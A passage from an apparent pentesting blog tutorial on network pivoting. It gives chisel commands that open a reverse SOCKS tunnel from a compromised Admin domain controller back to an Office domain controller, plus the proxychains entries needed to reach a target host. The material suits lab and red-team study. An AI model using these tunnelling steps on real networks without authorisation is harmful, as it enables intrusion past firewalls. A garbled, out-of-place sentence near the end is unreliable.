 Lets assume that we now have access to the domain controller in the Admin network. We now want to pivot again from the Office network DC to the Admin network DC so we can recon and eventually gain access to our target computer on the Admin network (172.16.2.200). First we want to create a server on the Office DC

#Run command on Office Domain Controller machine (172.16.1.5 )
chisel.exe server -p 8003 --reverse
Then on the Admin DC we want to run the following command to connect back to our domain controller.

#Run command on Admin Domain Controller machine (172.16.2.5)
chisel.exe client 172.16.1.5:8003 R:3080:socks
Finally we want to add a third entry into our proxychains.conf

socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
socks5 127.0.0.1 3080 
We have now successfully pivoted three times to get to our target goal which is to have access to the target computer on the admin network. The proxy connections should look something like below. Since we own the domain controller we can now use this to gain access to login to the machine at 172.16.2.200


 Pentesting, Pivoting
 pivot red team network chisel
This post is licensed under CC BY 4.0 by the author.
Recently Updated
Unmasking Secrets: Deciphering Encrypted Passwords through Reverse Engineering
Refined Home Lab Network
HTB Dante Pro Lab and THM Throwback AD Lab
Exploit Exercise Protostar Stack Series
Hardware Hacking CTF - HackIN
 worry that I can’t access my fragrant broiler because of the firewall or internal and external network restrictions!
Reference link


